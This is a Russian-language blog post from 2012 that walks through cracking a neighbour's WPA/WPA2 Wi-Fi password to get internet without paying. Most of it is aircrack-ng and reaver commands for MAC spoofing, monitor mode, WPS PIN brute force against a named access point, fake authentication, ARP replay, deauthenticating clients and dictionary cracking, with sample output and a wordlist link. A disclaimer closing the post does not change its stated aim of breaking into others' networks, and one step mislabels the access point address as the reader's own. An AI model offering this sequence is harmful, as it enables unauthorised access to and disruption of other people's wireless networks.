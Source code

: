 Title: Неприступный wi-fi
Date: 2012-08-08 08:15
Tags: Web, Linux
Slug: wi-fi
Author: redVi
Summary: Рассмотрим две хитрых программы, способные раскрасить наши беспросветные будни яркими красками.

Казалось бы, нет денег &mdash; нет интернета, путь к светлой беспроводной мечте закрыт и ничего здесь не попишешь. Но мы пойдём другим путём &mdash; обходным. Рассмотрим две хитрых программы, способные раскрасить наши беспросветные будни яркими красками. Всё нижеизложенное осуществлялось под управлением ОС Linux, но в Windows одна из используемых программ имеется точно и имя ей `aircrack-ng`.

<b>Задача:</b> получение пароля точки доступа WPA/PSK или WPA2/PSK.

Предполагаемый алгоритм решения:

## Меняем мак-адрес:

    :::console
    # ifconfig wlan0 hw ether 00:00:00:00:00:00

где 00:00:00:00:00:00 &mdash; ваш новый MAC-адрес.

При следующем входе в систему настройки будут сброшены.

Поднимаем сеть:

    :::console
    # ifconfig wlan0 up

## Создаём виртуальный интерфейс:

    :::console
    # airmon-ng start wlan0

Заработает виртуальный интерфейс в режиме мониторинга, как правило он носит название mon0. Теперь необходимо просканировать сеть и выбрать предполагаемую жертву, дабы получить BSSID сети.

##Начинаем прослушивать эфир:

    :::console
    # airodump-ng mon0

![mon0](http://1.bp.blogspot.com/-IWElfzIH6tU/UCF15qF1ySI/AAAAAAAABJM/mn3KesP73EA/s1600/aircrack-ng.png)

### Использование утилиты reaver

Получив необходимые сведения, вписываем их вместо подчёркнутых

    :::console
    $ sudo reaver -i mon0 -b 20:4E:7F:37:73:82 --channel 1 -vv


* mon0 - наш виртуальный интерфейс
* ключ -b обозначает BSSID точки доступа
* channel 1 - пробуем достучаться до первого "канала"
* vv - расширенный вывод - нас будут уведомлять о происходящем

Какой канал использует наш удалённый друг мы можем видеть в поле `CH`.

Если всё складывается удачно, вывод должен быть примерно таким:

        [+] Switching mon0 to channel 1
        [+] Waiting for beacon from 20:4E:7F:37:73:82
        [+] Associated with 20:4E:7F:37:73:82 (ESSID: marisha24)
        [+] Trying pin 12345670

Вот и всё. Теперь остаётся только долго ждать пока нам на блюдечке не поднесут нужные сведения. Автором сего поста был использован именно этот метод, как наиболее простой. Нижеприведённые на текущий момент носят сугубо теоретический характер.

###Путь второй: продолжаем эксперименты с `aircrack-ng`

    :::console
    # airodump-ng --channel 1 --write networks.dump mon0

* где 1 - номер канала
* networks.dump - файл, в который будет сохранён результат

В другой консоли начинаем повтор ARP-пакетов:

    :::console
    # aireplay-ng --fakeauth 1 mon0 -e "linksys"
    # aireplay-ng --arpreplay mon0 -e "linksys"

* где "linksys" - ESSID (имя) сети

Возможно, понадобится ввести и BSSID, в данном случае для этого служит ключ `-a`:

    :::console
    $ sudo aireplay-ng --fakeauth 1 mon0 -e dan9iekb -a FC:75:16:CC:20:D8

и так далее

Когда ARP-пакет будет найдет, программа начнет повторять его в эфир.

Как только наберется достаточное количество пакетов (поле DATA, 30.000 пакетов должно быть достаточно), в следующей консоли подбираем пароль:

    :::console
    # aircrack-ng networks.dump

Ну и ждём, соответственно. Занятие это долгое, параллельно на другой машине успеете [поставить gentoo](install-gentoo.html). И не только поставить, а даже настроить =)

Либо ещё способ с тем же `aircrack`, опишу с нуля, дабы не запутать читателя:

    :::console
    # airodump-ng mon0 - высматриваем жертву
    # airodump-ng -c 1 --bssid FC:75:16:CC:20:D8 -w data mon0 -  собираем данные о конкретной точке

Заставляем клиента переинициализироваться в сети:

    :::console
    # aireplay-ng -deauth 3 -a MAC_AP -c MAC_Client mon0

* где MAC_AP - ваш мак-адрес
* MAC_Client - адрес "того парня"

Способ хорош тем, что не придётся накапливать пакеты

    :::console
    # aircrack-ng -w wordlist capture_file

* где wordlist – ваш словарь
* capture_file – файл с данными, с расширением cap

Словари можно стянуть по адресу:

<http://ftp.se.kde.org/pub/security/tools/net/Openwall/wordlists>

<b>P.S.</b> Автор не несёт ответственности за ваши действия. Вся информация предоставлена исключительно в ознакомительных целях. Автор не использует полученные в результате эксперимента сведения, не разглашает их и даже не помнит. Не смотря на это ввиду любопытности темы всем сведующим лицам предлагается вносить свои правки и дополнения в комментариях: это может быть более лучший/быстрый метод взлома, могут быть ссылки на качественные словари &mdash; что угодно.
